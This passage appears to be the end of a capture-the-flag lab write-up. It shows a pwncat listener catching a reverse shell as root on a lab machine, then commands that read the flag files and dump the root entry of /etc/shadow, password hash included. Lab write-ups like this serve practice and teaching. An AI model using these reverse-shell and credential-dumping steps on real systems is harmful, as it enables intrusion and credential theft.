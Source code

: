 On our listener:

```
$ pwncat -l 8888 -vv
INFO: Listening on :::8888 (family 10/IPv6, TCP)
INFO: Listening on 0.0.0.0:8888 (family 2/IPv4, TCP)
INFO: Client connected from 10.10.10.187:33374 (family 2/IPv4, TCP)
id
uid=0(root) gid=0(root) groups=0(root)
pwd
/tmp/cyfun
cd /root
cat root.txt
9e96b615438b09b210be126a5e7d0577
cat /home/waldo/user.txt
30a8ad9cb41261bf0f97f75094358045
cat /etc/shadow | grep root
root:$6$M5g.E5/j$AO7lZNZXLFABZld5uGh/YB3J1Va4AG9Tmw1icvm2MsDOj6B1RFloUmnA9jcj4DIsILOedBvVQg66CVjGrd.fl0:18374:0:99999:7:::
```

[nmap]:https://nmap.org/
[ffuf]:https://github.com/ffuf/ffuf
[fz]:https://filezilla-project.org/
[pwncat]:https://pwncat.org/
